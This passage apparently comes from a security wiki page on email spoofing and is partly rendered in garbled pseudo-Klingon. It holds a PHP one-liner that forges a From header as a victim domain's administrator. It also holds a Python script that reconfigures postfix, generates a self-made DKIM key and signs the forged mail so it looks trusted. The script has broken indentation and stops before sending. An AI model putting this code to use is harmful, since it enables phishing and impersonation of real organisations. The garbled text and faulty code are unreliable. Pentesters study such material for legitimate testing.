 **ghobe' manually vItlhutlh:**

{% tabs %}
{% tab title="PHP" %}
<pre class="language-php"><code class="lang-php"><strong># vaj unsigned message
</strong><strong>mail("your_email@gmail.com", "Test Subject!", "hey! This is a test", "From: administrator@victim.com");
</strong></code></pre>
{% endtab %}

{% tab title="Python" %}
```python
# Code from https://github.com/magichk/magicspoofing/blob/main/magicspoofmail.py

import os
import dkim #pip3 install dkimpy
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase

# Set params
destination="destination@gmail.com"
sender="administrator@victim.com"
subject="Test"
message_html="""
<html>
<body>
<h3>This is a test, not a scam</h3>
<br />
</body>
</html>
"""
sender_domain=sender.split("@")[1]

# Prepare postfix
os.system("sudo sed -ri 's/(myhostname) = (.*)/\\1 = "+sender_domain+"/g' /etc/postfix/main.cf")
os.system("systemctl restart postfix")

# Generate DKIM keys
dkim_private_key_path="dkimprivatekey.pem"
os.system(f"openssl genrsa -out {dkim_private_key_path} 1024 2> /dev/null")
with open(dkim_private_key_path) as fh:
dkim_private_key = fh.read()

# Generate email
msg = MIMEMultipart("alternative")
msg.attach(MIMEText(message_html, "html"))
msg["To"] = destination
msg["From"] = sender
msg["Subject"] = subject
headers = [b"To", b"From", b"Subject"]
msg_data = msg.as_bytes()

# Sign email with dkim
## The receiver won't be able to check it, but the email will appear as signed (and therefore, more trusted)
dkim_selector="s1"
sig = dkim.sign(message=msg_data,selector=str(dkim_selector).encode(),domain=sender_domain.encode(),privkey=dkim_private_key.encode(),include_headers=headers)
msg["DKIM-Signature"] = sig[len("DKIM-Signature: ") :].decode()
msg_data = msg.as_bytes()

# Use local postfix relay to send email
smtp="127.0.0.1"
```